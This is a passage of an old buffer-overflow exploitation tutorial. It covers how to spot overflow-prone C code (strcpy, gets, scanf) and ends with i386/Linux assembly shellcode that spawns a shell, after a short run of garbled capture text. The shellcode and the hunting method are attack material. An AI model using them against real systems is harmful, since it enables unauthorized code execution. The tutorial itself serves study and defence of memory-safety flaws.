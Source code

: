 


����������
Warning: some arguments in previous message were lost
$
------------------------------------------------------------------------------

   On the first try!  It has certainly increased our odds.  Depending how 
much environment data the exploit program has compared with the program 
you are trying to exploit the guessed address may be to low or to high. 
Experiment both with positive and negative offsets.


                              Finding Buffer Overflows
                              ~~~~~~~~~~~~~~~~~~~~~~~~

   As stated earlier, buffer overflows are the result of stuffing more
information into a buffer than it is meant to hold.  Since C does not have any
built-in bounds checking, overflows often manifest themselves as writing past
the end of a character array.  The standard C library provides a number of
functions for copying or appending strings, that perform no boundary checking.
They include: strcat(), strcpy(), sprintf(), and vsprintf(). These functions 
operate on null-terminated strings, and do not check for overflow of the 
receiving string.  gets() is a function that reads a line from stdin into 
a buffer until either a terminating newline or EOF.  It performs no checks for
buffer overflows.  The scanf() family of functions can also be a problem if 
you are matching a sequence of non-white-space characters (%s), or matching a 
non-empty sequence of characters from a specified set (%[]), and the array 
pointed to by the char pointer, is not large enough to accept the whole 
sequence of characters, and you have not defined the optional maximum field 
width.  If the target of any of these functions is a buffer of static size, 
and its other argument was somehow derived from user input there is a good
posibility that you might be able to exploit a buffer overflow.

   Another usual programming construct we find is the use of a while loop to
read one character at a time into a buffer from stdin or some file until the
end of line, end of file, or some other delimiter is reached.  This type of
construct usually uses one of these functions: getc(), fgetc(), or getchar().
If there is no explicit checks for overflows in the while loop, such programs 
are easily exploited.

   To conclude, grep(1) is your friend.  The sources for free operating
systems and their utilities is readily available.  This fact becomes quite
interesting once you realize that many comercial operating systems utilities
where derived from the same sources as the free ones.  Use the source d00d.


     Appendix A - Shellcode for Different Operating Systems/Architectures
     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

i386/Linux
------------------------------------------------------------------------------
        jmp    0x1f
        popl   %esi
        movl   %esi,0x8(%esi)
        xorl   %eax,%eax
	movb   %eax,0x7(%esi)
        movl   %eax,0xc(%esi)
        movb   $0xb,%al
        movl   %esi,%ebx
        leal   0x8(%esi),%ecx
        leal   0xc(%esi),%edx
        int    $0x80
        xorl   %ebx,%ebx
        movl   %ebx,%eax
        inc    %eax
        int    $0x80
        call   -0x24